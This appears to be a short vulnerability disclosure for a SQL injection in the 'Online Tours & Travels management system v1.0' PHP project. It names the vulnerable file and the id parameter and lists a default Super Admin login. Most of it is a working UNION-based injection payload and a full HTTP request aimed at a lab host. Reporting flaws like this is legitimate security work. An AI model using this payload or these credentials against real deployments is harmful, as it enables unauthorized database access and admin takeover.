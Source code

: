 # Online Tours & Travels management system v1.0 by mayuri_k has SQL injection

BUG_Author: Wybsignal

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /tour/admin/update_currency.php

Vulnerability location: /tour/admin/update_currency.php?id=, id

dbname = tour1

[+] Payload: /tour/admin/update_currency.php?id=-1%27%20union%20select%201,database(),3--+ // Leak place ---> id

```sql
GET /tour/admin/update_currency.php?id=-1%27%20union%20select%201,database(),3--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183012744-fb36e800-a606-4d78-8434-d76ebea7c038.png)
